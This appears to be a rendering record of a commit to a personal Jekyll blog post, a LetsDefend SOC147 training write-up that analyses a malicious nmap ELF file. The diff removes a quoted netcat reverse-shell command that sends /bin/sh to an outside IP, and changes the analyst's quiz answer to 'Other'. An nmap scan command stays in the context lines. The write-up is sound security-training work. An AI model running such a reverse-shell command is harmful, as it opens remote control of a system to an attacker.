

Before and after one commit to arslanblcn/arslanblcn.github.io, a Jekyll site: the page built from _posts/2022-02-25-LetsDefend-SOC147-EventID-94.md, in a window 1280 px wide and 900 px high, scrolled down 673 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2022-02-25-LetsDefend-SOC147-EventID-94.md

````diff
--- a/_posts/2022-02-25-LetsDefend-SOC147-EventID-94.md
+++ b/_posts/2022-02-25-LetsDefend-SOC147-EventID-94.md
@@ -36,15 +36,7 @@ After download the file that is given in case details, we can get `nmap` ELF fil
 nmap -sC -sP 172.16.20.0/24
 ```
 
-Also, we've a weird network activity which is nc connection request. The command is;
-
-```bash
-nc 101.32.223.119 1234 -e /bin/sh
-```
-
-After seeing that, my answer to the first question is;
-
-`Unknown or unexpected outgoing internet traffic`
+After seeing that, my answer to the first question is `Other`.
 
 The second is that malware quarantined/cleaned?
 
````
